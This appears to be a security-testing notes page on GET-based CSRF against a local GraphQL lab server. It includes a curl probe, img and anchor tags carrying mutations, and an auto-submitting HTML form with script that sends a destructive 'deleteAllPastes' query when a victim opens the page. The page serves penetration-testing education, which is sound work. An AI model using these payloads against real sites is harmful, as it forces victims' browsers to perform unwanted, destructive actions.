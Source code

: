 

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

#### **Testing for GET-Based Vulnerabilities**

* GET-based CSRF attacks involve sending a malicious link to a victim.
* GET requests with state-changing queries can be exploited via HTML injection.

{% code overflow="wrap" %}
```bash
curl -X GET "http://localhost:5013/graphql?query=mutation%20%7B%20__typename%20%7D"

{"errors":[{"message":"Can only perform a mutation operationfrom a POST request."}]}

<a href="http://localhost:5013/graphql?query=mutation{someSensitiveAction}"/>
<img src="http://localhost:5013/graphql?query=mutation{someSensitiveAction}"/>    
-----------------------
// To perform such a CSRF attack, this HTML file uses <form> tags to
// submit the query. JavaScript code defined using the <script> HTML tags
// makes the request automatically, as soon as the victim loads the page:

<html>
    <body>
        <h1>This form is going to submit itself in 2 seconds...</h1>
        <form id="auto_submit_form" method="GET" action="http://localhost:5013/graphql">
        <input type="hidden" name="query" value="query { deleteAllPastes }"/>
        <input type="submit" value="Submit">
    </form>
    </body>
    <script>
    function sleep(ms) {
        return new Promise(resolve => setTimeout(resolve, ms));
    }
    async function csrf() {
        for (let i = 0; i < 2; i++) {
            await sleep(i * 1000);
        }
        document.forms['auto_submit_form'].submit();
    }
    csrf();
    </script>
<html>
------------
// GET-based CSRF using image tags
```